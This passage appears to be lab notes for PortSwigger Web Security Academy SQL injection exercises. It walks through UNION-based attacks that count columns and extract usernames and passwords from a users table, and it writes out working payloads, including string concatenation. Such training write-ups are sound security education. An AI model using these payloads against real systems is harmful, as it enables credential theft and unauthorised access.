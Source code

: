 Replace the `'a'` value with the random value provided in the task to solve the lab.

### SQL injection UNION attack, retrieving data from other tables

>This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
>The database contains a different table called users, with columns called username and password.
>
>To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

This lab builds on previous labs - inject a `UNION` attack command to retrieve user data from the `users` Table.

To solve the lab you need to use the administrator username and password to log in.

firstly, (as before) determine how many columns are being returned and which ones are type string.

```sql
' UNION SELECT NULL,NULL--
```
```shell
' UNION SELECT 'a','a'--
```
2 columns of type string
```sql
' UNION SELECT username,password FROM users--
```

### SQL injection UNION attack, retrieving multiple values in a single column

>This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
>The database contains a different table called users, with columns called username and password.
>
>To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

This lab is the same as the previous lab but the number of string columns (1) preclude using a `UNION SELECT` query returning both username and password.

The solution is simply to concatenate the username and password together into a single column. Note the concat method depends on the DB backend (see [SQL injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

`' UNION SELECT NULL,username||'~'||password FROM users--`

### SQL injection attack, querying the database type and version on Oracle
